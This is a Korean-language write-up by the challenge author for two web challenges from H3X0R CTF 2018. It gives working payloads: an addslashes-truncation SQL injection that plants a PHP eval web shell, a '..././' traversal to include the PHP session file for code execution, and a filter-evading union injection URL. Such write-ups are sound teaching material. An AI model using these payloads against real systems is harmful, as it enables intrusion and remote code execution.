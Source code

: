 # H3X0R CTF 2018 - Web Write-up (author : munsiwoo)

```
H3X0R CTF 2018 - goodaegi board, sqlgame revenge write-ups
Written by Siwoo Mun (munsiwoo)
```

## goodaegi board (490pts) - solver (1)

구대기 보드는 SQL Injection과 LFI, PHP 세션을 이용해 RCE하는 문제다.  
의도한 풀이의 전체적인 흐름은 SQL Injection으로 PHP 코드를 username에 넣어주고 해당 계정으로 로그인해서  
LFI로 계정의 세션을 포함시켜 RCE로 flag.php 읽어오는걸 의도했다. (Session to RCE)  
  
자세한 풀이는 아래를 참고하자  
  
--------------------------------
### SQL Injection

``classes/user.class.php`` 에 있는 user_join 함수에서 SQL Injection이 발생한다.

```php
public function user_join($user) {
	$user = array_map('addslashes', $user); // anti sql injection
	$nickname = substr($user['nickname'], 0, 100); // anti sql truncate attack
	$username = substr($user['username'], 0, 100); // anti sql truncate attack
	$password = sha1(md5($user['password']));

	if($message = $this->check_names($nickname, $username)) { // call name check function
		return $message;
	}

	$query = "insert into users values ('{$nickname}', '{$username}', '{$password}');";
	$this->query($query) or die($query);

	return false;
}
```

위 소스의 두 번째 줄부터 네 번째 줄을 보면 addslashes를 거치고  
SQL Truncate Attack을 방어한다는 명분으로 문자열을 100자로 자르고 있다.  
  
addslashes를 거치기 때문에 이 코드가 안전하다고 생각할 수 있겠지만 아래와 같이 공격이 가능하다.  

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1)#
```

이유는 'a' * 99 뒤에 single quote가 붙었을 때 addslashes를 거치면서 앞에 backslashes(\)가 붙고  
'a' * 99 + backslashes + single quote가 되면서 single quote가 잘리게 된다.  
  
즉 아래와 같은 꼴이 된다.  
  
``insert into users values ('aaaaaaaa\', '<inject point>', '<hash>');``

이제 여기서 username에 PHP 코드를 넣어주고 가입하면 된다

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1),(1,0x3c3f206576616c28245f4745545b785d293b3f3e,sha1(md5(0x61)))#
```
> Login  
username : ``<? eval($_GET[x]);?>``  
password : ``a``  

---------------------------------------------
### PHP Session to RCE PoC

Session to RCE의 간단한 예시를 들어보면  
PHP에서 로그인을 구현할 때 로그인에 성공하면 보통 아래와 같이 세션을 처리한다.

```php
<?php
session_start();
... (생략)
if(isset($fetch['username'])) { // 유저가 존재한다면
	$_SESSION['username'] = $fetch['username']; // 세션 할당
}
```

만약 여기서 ``$fetch['username']`` 변수에 ``<?php phpinfo(); ?>`` 가 들어가면 어떻게 될까?  
세션 파일에 들어가는 내용이 ``username|s:19:"<?php phpinfo(); ?>";`` 이렇게 될 것이다.  
우분투 기준 PHP 세션은 기본적으로 ``/var/lib/php/sessions/`` 에 저장되며 어느 계정이든 접근이 가능한 디렉토리다.  
또한 저장되는 세션 파일명도 일정한 규칙이 있어서 알아낼 수 있기 때문에 PHP코드가 포함된 세션을 inclusion한다면 RCE가 가능하다.  

* 세션 파일명 : ``sess_[random_string]`` 여기서 random_string은 클라이언트가 가지고 있는 PHPSESSID 값이다.  
ex) PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0; => sess_fqs54b8ies3uhuhlttlb3lq3d0  
  
단, 회원 가입에서 ``<, >`` 를 막아놨기 때문에 SQL Injection을 활용해야 한다.

--------------------------------------------
### LFI to RCE (session inclusion)
이제 세션에 PHP 코드를 넣는데 성공했다.  
LFI는 ``?p=home.html`` 여기 p 파라미터에서 발생하는데 p 파라미터는 ``secure_page`` 함수를 거친다.  
해당 함수는 ``config/function.php`` 에서 확인할 수 있다.

```php
function secure_page($page) { // anti hack
	$page = strtolower(trim($page)); // str to lowercase and remove whitespace
	$page = str_replace(chr(0), '', $page); // remove null byte
	$page = str_replace('../', '', $page); // remove '../'
	if(substr($page, -4, 4) == 'html') { // check extension
		return $page;
	} 
	die('403 forbidden.');
}
```
우선 4 번째 줄을 보면 ``../`` 를 없애고 있다, ``..././`` 이렇게 바꿔주면 가운데 ``../``가 없어지면서 ``../`` 가 된다.  
그 다음, 세션은 사용자가 이름을 임의로 바꿀 수 있기 때문에 세션의 맨 뒷자리 4자를 ``html``로 바꾸면 된다.  
ex) ``PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0html``  
  
``?p=..././..././..././..././..././var/lib/php/sessions/fqs54b8ies3uhuhlttlb3lq3d0html``  
  
RCE가 성공적으로 되는걸 확인했다면, flag.php를 읽으면 된다.

## sqlgame revenge (480pts) - solver (2)

MySQL Injection 문제다.

```php
<?php
error_reporting(0);
require_once 'config.php';

/*************************

 made by munsiwoo
 sqlgame-revenge

 sqlgame_revenge table structure :
 create table sqlgame_revenge (
	 username varchar(100),
	 password varchar(100)
 ) default charset=utf8;

**************************/

isset($_GET['username'], $_GET['password']) or view_source();

$conn = mysqli_connect('', __USER__, __PASS__, 'hahahoho');
$conn or die('sql server down.');

$username = substr($_GET['username'], 0, 400);
$password = substr($_GET['password'], 0, 400);

$filter  = "'|\"|x|b|y|substr|left|right|char|hex|md|sha|compress|mysql|blog";
$filter .= "|=|like|regexp|if|case|sleep|benchmark|munsiwoo|user|where|strcmp";
$filter .= "|column|table|load|file|view|sys|global|rand|innodb|space|mid|name";

(!preg_match("/{$filter}/is", $username.chr(32).$password)) or die('403 forbidden.');
(!preg_match("/password/i", $username)) or die('403 forbidden.');
(!(substr_count($username.$password, '(') > 25)) or die('403 forbidden.');

$query = "select * from sqlgame_revenge where username='{$username}' and password='{$password}'";
$query = mysqli_query($conn, $query) or die('syntax error.');
$fetch = mysqli_fetch_assoc($query) or die('user not found.');
$fetch = array_map('strtolower', $fetch);

(strtolower($fetch['username']) == 'munsiwoo') or die('who are you?');
(strtolower($fetch['password']) ==  $password) or die('pw incorrect!');

show_flag();

```

payload
```
http://18.216.25.52/7b9b9b1e52a8f5fcff220094034b9390/?username=\&password=||0%20union%20select%20concat(insert(encode(950358551,464374247),1,6,lpad(0,0,0)),insert(insert(encode(1366430893,867605427),1,4,lpad(0,0,0)),3,6,lpad(0,0,0)),insert(insert(insert(encode(546815368,1734964794),1,4,lpad(0,0,0)),1,1,lpad(0,0,0)),4,1,lpad(0,0,0))),(select%20insert(insert(info,1,63,lpad(0,0,0)),367,1,lpad(0,0,0))%20from%20information_schema.processlist%20limit%200,1)%23
```
